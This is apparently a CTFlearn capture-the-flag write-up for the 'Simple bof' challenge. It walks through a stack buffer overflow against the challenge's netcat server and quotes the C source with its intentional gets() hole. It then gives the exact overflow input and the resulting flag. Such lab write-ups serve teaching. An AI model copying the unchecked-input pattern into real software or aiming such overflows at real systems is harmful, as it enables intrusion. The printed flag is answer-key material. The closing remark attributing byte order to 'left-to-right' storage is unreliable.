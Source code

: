 # [Simple bof](https://ctflearn.com/challenge/1010) (10)
Let's skip the video for now and connect to the `netcat` server: <br />
```
$ nc thekidofarcrania.com 35235

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xffee15a8 | 00 00 00 00 00 00 00 00 |
0xffee15b0 | 00 00 00 00 00 00 00 00 |
0xffee15b8 | 00 00 00 00 00 00 00 00 |
0xffee15c0 | 00 00 00 00 00 00 00 00 |
0xffee15c8 | ff ff ff ff ff ff ff ff |
0xffee15d0 | ff ff ff ff ff ff ff ff |
0xffee15d8 | ef be ad de 00 ff ff ff |
0xffee15e0 | c0 75 ed f7 84 9f 64 56 |
0xffee15e8 | f8 15 ee ff 11 7b 64 56 |
0xffee15f0 | 10 16 ee ff 00 00 00 00 |

Input some text: 

```
We are looking at some addresses in memory alongside their contents. <br />
Each row contains 8 bytes of hexadecimal data, with the leftmost column denoting the starting address for the leftmost byte. <br />

Let's try inputing a large string of `A`s (41) in hex: <br />
```
Input some text: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xff9b1d58 | 41 41 41 41 41 41 41 41 |
0xff9b1d60 | 41 41 41 41 41 41 41 41 |
0xff9b1d68 | 41 41 41 41 41 41 41 41 |
0xff9b1d70 | 41 41 41 41 41 41 41 41 |
0xff9b1d78 | 41 41 41 41 41 41 41 41 |
0xff9b1d80 | 41 41 41 41 41 41 41 41 |
0xff9b1d88 | 41 41 00 de 00 ff ff ff |
0xff9b1d90 | c0 45 f1 f7 84 2f 60 56 |
0xff9b1d98 | a8 1d 9b ff 11 0b 60 56 |
0xff9b1da0 | c0 1d 9b ff 00 00 00 00 |

Wow you overflowed the secret value! Now try controlling the value of it!
```
We caused a buffer overflow which partially overwrote the `0xdeadbeef` value in memory. <br />
We know we have to change the value of this location to something specific, let's look at the C [file](https://ctflearn.com/challenge/download/1010) from the challenge text: <br />

```
$ bat bof.c

───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: bof.c
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #include <stdio.h>
   2   │ #include <stdlib.h>
   3   │ #include <string.h>
   4   │ #include <unistd.h>
   5   │ 
   6   │ // Defined in a separate source file for simplicity.
   7   │ void init_visualize(char* buff);
   8   │ void visualize(char* buff);
   9   │ void safeguard();
  10   │ 
  11   │ void print_flag();
  12   │ 
  13   │ void vuln() {
  14   │   char padding[16];
  15   │   char buff[32];
  16   │   int notsecret = 0xffffff00;
  17   │   int secret = 0xdeadbeef;
  18   │ 
  19   │   memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  20   │   memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.
  21   │ 
  22   │   // Initializes the stack visualization. Don't worry about it!
  23   │   init_visualize(buff); 
  24   │ 
  25   │   // Prints out the stack before modification
  26   │   visualize(buff);
  27   │ 
  28   │   printf("Input some text: ");
  29   │   gets(buff); // This is a vulnerable call!
  30   │ 
  31   │   // Prints out the stack after modification
  32   │   visualize(buff); 
  33   │ 
  34   │   // Check if secret has changed.
  35   │   if (secret == 0x67616c66) {
  36   │     puts("You did it! Congratuations!");
  37   │     print_flag(); // Print out the flag. You deserve it.
  38   │     return;
  39   │   } else if (notsecret != 0xffffff00) {
  40   │     puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  41   │   } else if (secret != 0xdeadbeef) {
  42   │     puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  43   │   } else {
  44   │     puts("Maybe you haven't overflowed enough characters? Try again?");
  45   │   }
  46   │ 
  47   │   exit(0);
  48   │ }
  49   │ 
  50   │ int main() {
  51   │   setbuf(stdout, NULL);
  52   │   setbuf(stdin, NULL);
  53   │   safeguard();
  54   │   vuln();
  55   │ }
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

From the source code, we know that we shouldn't overflow the `notsecret` section in memory, but need to change `0xdeadbeef` to `0x67616c66`. <br />
We can use `rax2` to determine the binary representation of `0x67, 0x61, 0x6c, 0x66`: <br />
```
$ rax2 -s 0x67616c66
galf
```

Let's overwrite the `0xdeadbeef` with `0x67616c66`: <br />
```
Input some text: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAflag

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xffc92808 | 41 41 41 41 41 41 41 41 |
0xffc92810 | 41 41 41 41 41 41 41 41 |
0xffc92818 | 41 41 41 41 41 41 41 41 |
0xffc92820 | 41 41 41 41 41 41 41 41 |
0xffc92828 | 41 41 41 41 41 41 41 41 |
0xffc92830 | 41 41 41 41 41 41 41 41 |
0xffc92838 | 66 6c 61 67 00 ff ff ff |
0xffc92840 | c0 65 f7 f7 84 5f 56 56 |
0xffc92848 | 58 28 c9 ff 11 3b 56 56 |
0xffc92850 | 70 28 c9 ff 00 00 00 00 |

You did it! Congratuations!
CTFlearn{buffer_0verflows_4re_c00l!}
```

Now we have our flag: `CTFlearn{buffer_0verflows_4re_c00l!}` <br />

Notes:
*Apparently the stack doesn't HAVE to grow downwards, like I believed:* [stackoverflow](https://stackoverflow.com/questions/1677415/does-stack-grow-upward-or-downward). <br />

*There is a null terminator at the end of our input text, that's why* `0x00` *will always be at the end of our buffer overflow*. <br />

*Variables are stored in memory left-to-right, thats why `0xdeadbeef` is `ef be ad de` in memory.* <br />
